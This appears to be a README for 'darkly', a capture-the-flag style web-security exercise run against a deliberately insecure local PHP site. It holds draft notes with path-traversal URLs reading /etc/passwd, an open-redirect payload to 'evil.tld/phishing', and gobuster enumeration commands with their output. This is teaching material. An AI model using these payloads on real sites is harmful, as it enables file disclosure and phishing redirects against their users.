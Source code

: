 # darkly

This project is meant as an introduction to web security.

Download `Darkly_i386.iso`, launch it and setup the port forwarding rule: Guest 80 → Host 8080.

An insecure PHP website is now live on `localhost:8080`. There are 14 flags to find.

======

## TODELETE AXEL RANDOM

`http://localhost:8080/?page=../../../../etc/passwd` (non)

`http://localhost:8080/?page=../../../../../../../etc/passwd` (oui)

TODO: enumeration on ?page=

`index.php?page=redirect&site=http://evil.tld/phishing`

Unvalidated Redirects vs Open Redirects

## TODELETE GOBUSTER COMMANDS

```console
$ git clone git@github.com:3ndG4me/KaliLists.git
```

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ gobuster dir -u http://localhost:8080/images -w KaliLists/dirb/big.txt -x gif,jpg,jpeg,png --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/images
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,jpeg,png,gif
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/404.jpg              (Status: 200) [Size: 27027]
/42.jpeg              (Status: 200) [Size: 9783]
/banner.jpg           (Status: 200) [Size: 511270]
/banner2.jpg          (Status: 200) [Size: 50867]
/mailbox.png          (Status: 200) [Size: 49480]
/marvin.jpg           (Status: 200) [Size: 111300]
/search.png           (Status: 200) [Size: 49089]
/upload.png           (Status: 200) [Size: 64785]
/whoami.gif           (Status: 200) [Size: 1809804]
/win.jpg              (Status: 200) [Size: 43468]
/win.png              (Status: 200) [Size: 72726]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```
